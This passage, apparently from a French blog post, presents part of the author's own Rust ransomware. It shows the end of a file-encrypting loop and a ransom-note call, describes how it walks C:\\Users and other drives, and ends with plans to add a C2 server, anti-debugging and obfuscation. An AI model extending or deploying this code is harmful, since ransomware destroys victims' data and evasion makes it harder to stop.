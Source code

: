 ```Rust
                                match ecrire_fichier(chemin_fichier.clone(), contenu_chiffrer) {
                                    Ok(_ok) => renommer_fichier(chemin_fichier).expect("Impossible de renommer le fichier"),
                                    Err(_e) => println!("Impossible de chiffrer le fichier"),
                                }
                            },
                            Err(_fichier_ouvert) => {
                                continue;
                            },
                        }
                    }
                }
            }
        }
    }
    note_tous_les_utilisateurs();
}
```

Pas parfaite mais elle fonctionne !

On commence par l'énumération des disques et par la récupération des chemins des utilisateurs, on chiffre tous les fichiers qui sont dans C:\\Users puis on passe aux autres disques. Enfin, on laisse une note sur le bureau.

## Pistes potentielles d'améliorations

Ce "ransomware" est très basique:

- La clé de chiffrement est en clair,
- Il y a rien de mit en place pour échapper aux anti-virus: lorsque j'ai réalisé mes tests sur une VM Windows 10 22H2, le binaire a été détecté comme malveillant 10-15 minutes après sa première exécution par Windows Defender,
- Le "chiffrement" se fait avec XOR,
- La phase de chiffrement est longue: sur ma VM, qui utilise un disque dur et non un SSD, le chiffrement a prit un bon 5 minutes alors que la session avait à peine quelques Mo de données (2 fichiers texte) principalement car il regardait ce qu'il y avait dans AppData,
- On va pas se le cacher mais son implémentation est très bancale et plutôt aléatoire.

Donc, un de mes futurs projets sera de:

- Créer un serveur C2 et y faire appel pour la clé de chiffrement et autres paramètres,
- Mettre en place des technique d'anti-débogage et d’obfuscation,
- Choisir un "meilleur" chiffrement et travailler sur sa vitesse.

Mais avant tout ça, je vais décompiler mon ransomware !